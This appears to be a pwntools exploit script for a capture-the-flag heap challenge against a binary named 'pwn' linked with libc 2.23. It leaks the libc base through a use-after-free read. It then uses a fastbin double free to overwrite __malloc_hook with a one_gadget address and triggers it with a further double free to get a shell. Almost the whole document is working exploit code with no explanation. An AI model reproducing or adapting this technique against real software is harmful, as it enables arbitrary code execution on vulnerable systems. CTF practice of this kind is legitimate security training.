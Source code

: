 ```plain

p=process("./pwn")
libc = ELF('./libc-2.23.so')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause() 

add_idx = 1
delete_idx = 3
show_idx = 2


def choice(cho):
    sla('Your choice:',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('Index: ',idx)
    sla('Size: ',size)
    sa('Content: ',content)

def delete(idx):
    choice(delete_idx)
    sla('Index: ',idx)

def show(idx):
    choice(show_idx)
    sla('Index: ',idx)

add(0,0x80,'aaaaaaaa')
add(1,0x80,'aaaaaaaa')
delete(0)
show(0)
#duan()
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x3c4b78
leak('libc_base ',libc_base)

malloc_hook = libc_base + libc.sym['__malloc_hook']
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
ogs=[0x4527a,0xf03a4,0xf1247]
og=ogs[1]+libc_base

add(2,0x68,'aaaaaaaa')
add(3,0x68,'aaaaaaaa')
add(4,0x68,'aaaaaaaa')
delete(2)
delete(3)
delete(2)

add(5,0x68,p64(malloc_hook-0x23))
add(6,0x68,'/bin/sh\x00')
add(7,0x68,'aaaaaaaa')
add(8,0x68,'a'*0x13+p64(og))

#duan()
delete(3)
delete(3)

#duan()
```